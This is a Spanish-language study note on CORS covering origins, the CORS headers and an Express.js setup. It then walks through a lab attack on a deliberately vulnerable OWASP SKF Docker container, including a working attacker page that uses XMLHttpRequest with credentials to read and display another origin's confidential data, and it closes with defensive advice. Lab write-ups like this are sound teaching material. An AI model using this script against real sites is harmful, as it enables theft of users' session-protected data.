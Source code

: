 
## 🌐 ¿Qué es CORS?

**CORS** (Cross-Origin Resource Sharing) es un mecanismo de seguridad implementado en los navegadores para **restringir o permitir solicitudes HTTP entre distintos orígenes** (dominios, protocolos o puertos).

> 🔒 Su objetivo es proteger al usuario frente a solicitudes maliciosas que podrían comprometer sus datos.

---

## 🧭 ¿Qué es un origen (origin)?

Un **origen** está compuesto por:
- El **protocolo** (ej: `https`)
- El **dominio** (ej: `example.com`)
- El **puerto** (ej: `:443`)

Dos URLs tienen **diferente origen** si alguno de estos componentes es distinto.

📌 Ejemplo:
```

[https://example.com](https://example.com) ⬅️ origen A  
[https://api.example.com](https://api.example.com) ⬅️ origen B (subdominio diferente)  
[http://example.com](http://example.com) ⬅️ origen C (protocolo diferente)  
[https://example.com:8080](https://example.com:8080) ⬅️ origen D (puerto diferente)

````

---

## 🧪 ¿Cómo actúa CORS?

Cuando un sitio (origen A) quiere hacer una solicitud HTTP (fetch, XHR) a otro origen (origen B), el navegador:

1. Bloquea la solicitud por defecto.
2. Envía una **solicitud previa** (preflight request) `OPTIONS` si es necesario.
3. Espera una respuesta con los **encabezados CORS apropiados** desde el servidor de origen B.

### 🔖 Encabezados clave
- `Access-Control-Allow-Origin`: define qué origenes están permitidos
- `Access-Control-Allow-Methods`: métodos HTTP permitidos (GET, POST, PUT, etc)
- `Access-Control-Allow-Headers`: qué cabeceras se aceptan en la solicitud
- `Access-Control-Allow-Credentials`: permite el envío de cookies y autenticación

---

## 💡 Ejemplo práctico

```http
// Cliente hace una solicitud desde https://client.com
GET https://api.server.com/data

// El servidor responde con:
Access-Control-Allow-Origin: https://client.com
Access-Control-Allow-Methods: GET, POST
Access-Control-Allow-Credentials: true
````

Si el servidor **no incluye estos headers**, el navegador **bloqueará la respuesta**, aunque la solicitud haya llegado al servidor.

---

## 🛠️ CORS en código (servidor)

### 🌍 Express.js (Node)

```js
const express = require('express');
const cors = require('cors');

const app = express();

app.use(cors({
  origin: 'https://client.com',
  methods: ['GET', 'POST'],
  credentials: true
}));
```



## 🧪 Ejemplo práctico: Explotación de CORS

### 🐳 Paso 1: Iniciar entorno vulnerable

Ejecutamos un contenedor Docker con una aplicación vulnerable a CORS:

```bash
docker pull blabla1337/owasp-skf-lab:cors
```

```bash
docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:cors
```

> ⚙️ Con `-p 127.0.0.1:5000:5000` estamos haciendo **port forwarding**, redirigiendo el puerto 5000 del contenedor al puerto 5000 de nuestra máquina local.

---

### 🐞 Paso 2: Script malicioso en HTML

Un atacante podría alojar el siguiente script en un sitio externo:

```html
<script>
    // Crear una solicitud a una API vulnerable
    var req = new XMLHttpRequest();

    req.onload = listener;
    req.open("GET", "http://localhost:5000/confidential", true);
    req.withCredentials = true;
    req.send();

    function listener() {
        // Mostrar la respuesta (datos robados) en el HTML
        document.getElementById("stoleninfo").innerHTML = this.responseText;
    }
</script>

<center>
    <h1>Has sido hackeado. Esto fue lo que te robé:</h1>
</center>

<p id="stoleninfo"></p>
```


Luego abrimos un servidor http con pyton por el puerto 8084 en donde este el `html`

```bash
python -m http.server 8084
```

---

### ⚠️ ¿Por qué es peligroso?

Este ataque funciona si el servidor `http://localhost:5000`:

- Permite solicitudes CORS desde cualquier origen (`Access-Control-Allow-Origin: *` o refleja el origen).
- Permite el uso de **cookies** o **tokens** con `Access-Control-Allow-Credentials: true`.

> En ese caso, el navegador del usuario envía automáticamente sus **cookies de sesión**, y la respuesta confidencial se muestra en el sitio del atacante.


---

### 🎯 Resultado

El atacante accede a información sensible y la inyecta en la página maliciosa:

```html
<p id="stoleninfo">[Datos privados obtenidos]</p>
```

---

## 🔐 Conclusión

> Siempre validar los orígenes y evitar reflejar cualquier `Origin` que venga del navegador.  
> Nunca usar `Access-Control-Allow-Origin: *` junto con `Access-Control-Allow-Credentials: true`.

---


---
## 🔐 Seguridad y buenas prácticas

- ❌ **No usar `Access-Control-Allow-Origin: *` si se usan cookies o tokens de sesión.**
    
- ✅ Siempre especificar los orígenes permitidos.
    
- ✅ Validar y sanitizar las cabeceras `Origin` en el backend.
    
- 🔍 Revisar posibles **exposiciones de datos sensibles** al habilitar CORS.
    
- 🔐 Considerar mecanismos de autenticación robustos en APIs públicas.
    

---

## 🧷 Tags

#ciberseguridad #web #CORS #seguridad_web #http_headers

[[OWASP]]